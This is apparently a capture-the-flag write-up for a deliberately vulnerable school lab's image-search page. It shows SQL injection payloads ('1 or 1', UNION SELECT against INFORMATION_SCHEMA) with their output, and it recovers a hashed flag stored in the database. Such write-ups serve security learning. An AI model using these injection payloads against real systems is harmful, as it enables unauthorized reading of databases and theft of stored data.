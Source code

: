 # Image Search

# Image Search

Something similar to member-search I think

`1 or 1` gives all images in database

```
ID: 1 or 1
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 or 1
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 or 1
Title: Google
Url : https://www.google.fr/google.png

ID: 1 or 1
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 or 1
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 or 1
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```

Same as user search:

```
ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: id
Url : list_images

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: url
Url : list_images

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: title
Url : list_images

ID: 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: comment
Url : list_images
```

Querying for more information gives us this

```
ID: 1 union select title, comment from list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

Run that through a google search and you get `albatroz`
